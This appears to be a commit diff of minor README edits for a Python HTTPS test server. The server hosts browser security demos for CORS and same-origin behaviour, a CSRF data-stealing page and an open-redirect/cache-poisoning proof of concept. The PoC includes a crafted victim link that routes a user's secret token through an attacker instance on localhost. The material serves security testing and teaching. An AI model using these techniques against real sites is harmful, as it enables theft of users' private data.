

Minor fixes in README

diff --git a/README.md b/README.md
@@ -61,7 +61,7 @@ This is a multi-threaded HTTPS server based on python's simple http server. It i
       + `204 No Content`: page cached
       + `500 Server Error`: maximum cache memory reached, or page `{name}` already cached
     - Notes:
-      + Once saved, a page cannot be overwritten (until the server is shutdown) even if it is cleared from memory (see /cache/clear)
+      + Once saved, a page cannot be overwritten (until the server is shutdown) even if it is cleared from memory (see `/cache/clear`)
   * `GET /cache/{name}`: retrieve a previously saved page
     - Response codes:
       + `200 OK`: the body and `Content-Type` are as requested during caching
@@ -77,7 +77,7 @@ This is a multi-threaded HTTPS server based on python's simple http server. It i
       + `200 OK`: body contains a randomly generated UUID; use in `POST /cache/{uuid}`
   * `GET /goto/{address}`: redirect to this (URI-decoded) address
     - Response codes:
-      + `302 Found`: Location is the address which follows `/goto/`; if domain is not given it is taken from the `Referer`, `Origin`, `X-Forwarded-Host`, `X-Forwarded-For` or `Forwarded`
+      + `302 Found`: Location is the address which follows `/goto/`; if domain is not given (i.e. address does not start with `schema://` or `//`) it is taken from the `Referer`, `Origin`, `X-Forwarded-Host`, `X-Forwarded-For` or `Forwarded`
       + `200 OK`: empty body; this happens if address was relative (no domain) and neither of the aforementioned headers was given
     - Notes:
       + Unlike the address given as a `goto` parameter to some of the other endpoints, the address here is not URI-decoded
@@ -101,25 +101,27 @@ This is a multi-threaded HTTPS server based on python's simple http server. It i
 
 `/demos/sop` can be used to test the behaviour of various browsers (many old ones supported) when it comes to cross-origin requests.
 
-  * `getSecret.html`: fetches `/secret/secret.txt` or `/secret/secret.png` using 6 different methods (see below), for each requesting 5 CORS combinations from the server (see below); supported URL parameters:
+  * `getSecret.html`: fetches `/secret/secret.txt` or `/secret/secret.png` using eight different methods (see below), for each requesting five CORS combinations from the server (see below); supported URL parameters:
     - `host`: the full hostname/IP address:port of the target
     - `hostname`: only the hostname/IP address of the target; the port number will be the same as the origin
     - `port`: only the port number of the target; the hostname/IP address will be the same as the origin
 
-`getSecret.html` will log in to the target origin, and fetch `https://<target_origin>/secret/secret.<txt or png>?origin=...&creds=...` requesting each one of the following 5 CORS combinations from the server:
-  * Origin: `<as request origin>` , Credentials: true
-  * Origin: `<as request origin>` , Credentials: false
+`getSecret.html` will log in to the target origin, and fetch `https://{target_origin}/secret/secret.{txt|png}?origin=...&creds=...` requesting each one of the following 5 CORS combinations from the server:
+  * Origin: `{as request origin}` , Credentials: true
+  * Origin: `{as request origin}` , Credentials: false
   * Origin: `*` , Credentials: true
   * Origin: `*` , Credentials: false
   * no CORS headers
 
-It will do so using each the following six methods:
+It will do so using each the following eight methods:
   * GET `/secret/secret.txt` via XMLHttpRequest
   * POST `/secret/secret.txt` via XMLHttpRequest
   * GET `/secret/secret.txt` via `<iframe>`
   * GET `/secret/secret.txt` via `<object>`
   * GET `/secret/secret.png` via `<img>`, then draw it in a 2D canvas
+  * GET `/secret/secret.png` via `<img crossorigin="use-credentials">`, then draw it in a 2D canvas
   * GET `/secret/secret.png` via `<img>`, then draw it in a bitmap canvas
+  * GET `/secret/secret.png` via `<img crossorigin="use-credentials">`, then draw it in a bitmap canvas
 
 #### Running the server
 
@@ -136,27 +138,27 @@ python3 simple.py -l demos/sop/logs/requests_vary_host.log
 Visit:
 
 ```
-https://<IP_1>:58080/demos/sop/getSecret.html?hostname=<IP_2>
+https://{IP_1}:58080/demos/sop/getSecret.html?hostname={IP_2}
 ```
 
-replacing `<IP_1>` and `<IP_2>` with two different interfaces, e.g. `127.0.0.1` and `192.168.0.1`.
+replacing `{IP_1}` and `{IP_2}` with two different interfaces, e.g. `127.0.0.1` and `192.168.0.1`.
 
 2. Alternatively, start it only on one interface:
 
 ```bash
-python3 simple.py -a <IP> -l demos/sop/logs/requests_vary_host.log
+python3 simple.py -a {IP} -l demos/sop/logs/requests_vary_host.log
 ```
 
 and use a DNS name which resolves to the interface's IP address:
 
 ```
-https://<IP>:58080/demos/sop/getSecret.html?hostname=<hostname>
+https://{IP}:58080/demos/sop/getSecret.html?hostname={hostname}
 ```
 
 or:
 
 ```
-https://<hostname>:58080/demos/sop/getSecret.html?hostname=<IP>
+https://{hostname}:58080/demos/sop/getSecret.html?hostname={IP}
 ```
 
 You can omit the hostname URL parameter if listening on `localhost` and `localhost` has the `127.0.0.1` address. `getSecret.html` will detect that and use `localhost` or `127.0.0.1` as the target domain (if the origin is `127.0.0.1` or `localhost` respectively).
@@ -164,14 +166,14 @@ You can omit the hostname URL parameter if listening on `localhost` and `localho
 3. Alternatively, run two different instances on one interface but different ports:
 
 ```bash
-python3 simple.py -a <IP> -p 58081 -l demos/sop/logs/requests_vary_port_target.log
-python3 simple.py -a <IP> -p 58082 -l demos/sop/logs/requests_vary_port_origin.log
+python3 simple.py -a {IP} -p 58081 -l demos/sop/logs/requests_vary_port_target.log
+python3 simple.py -a {IP} -p 58082 -l demos/sop/logs/requests_vary_port_origin.log
 ```
 
 then visit:
 
 ```
-https://<IP>:58082/demos/sop/getSecret.html?port=58081
+https://{IP}:58082/demos/sop/getSecret.html?port=58081
 ```
 
 #### Viewing results, logging to file and parsing it
@@ -221,20 +223,17 @@ python3 simple.py
 Visit `getData.html` in one browser:
 
 ```
-https://<IP>:58080/demos/csrf/getData.html
+https://{IP}:58080/demos/csrf/getData.html
 ```
 
 then input the target URL in the input box, e.g.:
 
 ```
-https://<IP>:58080/secret/secret.html
+https://{IP}:58080/secret/secret.html
 ```
 
-Copy the generated victim URL. Click on the link "Click here to wait for the
-stolen data". Open the copied link in another browser.
-Refresh the cached page to see the stolen secret data.
-
-Note: The cached page should refresh itself every 30s.
+Copy the generated victim URL and open it in another browser. Click on the
+link "Click here to wait for the stolen data" to see the stolen secret data.
 
 ## Stealing information via web cache poisoning or open redirects
 
@@ -244,21 +243,22 @@ attcker. Usually this happens if the application exposes internal data in a way
 it can be tampered with by a malicious user. Two common examples are:
   * Open redirect: A vulnerable page may redirect the user based on a URL
     parameter, which is normally set by another page on the app; e.g. `/admin`
-    send an unauthenticated user to `/login?returnURL=%2fadmin` and `/login`
+    sends an unauthenticated user to `/login?returnURL=%2fadmin` and `/login`
     trusts the `redirectURL` parameter. A successful login may also append secret
     authentication tokens to the URL it redirects to as is often done in OpenID
     and OAuth implementations.
   * Web cache poisoning: A web application is hidden behind a caching proxy and
-    dynamically updates all links on it to point to the domain name in the
-    `X-Forwarded-Host` header, which is normally set by the proxy and not
+		dynamically updates all links on it to point to the domain name given in
+		the `X-Forwarded-Host` header, which is normally set by the proxy and not
     checked. The proxy may erroneously serve cached content with a malicious
     attacker-supplied `X-Forwarded-Host` to other victim users.
 
 `demos/evil_proxy/vuln.html` is a simple example of a vulnerable page which
 takes the path of a caching endpoint (e.g. `/cache`) from a URL parameter
-without validating it. It then asks the caching endpoint for a new random
-token, which should be kept secret, and submits to it sensitive data available
-only to the user viewing the page.
+without validating it. It then generates a new random token, which represents
+a secret unguessable token, and caches sensitive data available only to the
+user viewing the page (`/secret/secret.txt` requiring a cookie) using the token
+as a name.
 
 #### Running the server
 
@@ -276,11 +276,16 @@ Attacker:
 python3 simple.py -O -c -p 58081
 ```
 
-The "attacker" sends the "victim" the following link with a spoofed `cacheURI`:
+The "victim" has previously logged in at `http://localhost:58080/login`. The
+"attacker" sends the "victim" the following link with a spoofed `cacheURI`:
 
 ```
 http://localhost:58080/demos/evil_proxy/vuln.html?cacheURI=http%3a%2f%2f127.0.0.1:58081%2fgoto%2f%2fcache
 ```
+
+The data sent to the cache, as well as the action of the user clicking on the
+link to view the data, is proxied via the attacker, in an almost
+indistinguishable way:
 
 ![](demos/poc_evil_proxy_token.png)
 
@@ -291,8 +296,8 @@ http://localhost:58080/demos/evil_proxy/vuln.html?cacheURI=http%3a%2f%2f127.0.0.
 ```
 usage: simple.py [-h] [-a IP] [-p PORT] [-o [Origin [Origin ...]] | -O]
                  [-x [Header: Value [Header: Value ...]]]
-                 [-m [Header: Value [Header: Value ...]]] [-c] [-s] [-C FILE]
-                 [-K FILE] [-H [Header: Value [Header: Value ...]]]
+                 [-m [Method [Method ...]]] [-c] [-s] [-C FILE] [-K FILE]
+                 [-H [Header: Value [Header: Value ...]]]
                  [-S [DIR|FILE [DIR|FILE ...]]] [-l FILE] [-d] [-t]
 
 Serve the current working directory over HTTPS and with custom headers. The
@@ -320,7 +325,7 @@ CORS options (requires -o or -O):
                         Headers allowed for CORS requests. (default:
                         ['Accept', 'Accept-Language', 'Content-Language',
                         'Content-Type', 'Authorization'])
-  -m [Header: Value [Header: Value ...]], --allowed-methods [Header: Value [Header: Value ...]]
+  -m [Method [Method ...]], --allowed-methods [Method [Method ...]]
                         Methods allowed for CORS requests. (default: ['POST',
                         'GET', 'OPTIONS', 'HEAD'])
   -c, --allow-credentials
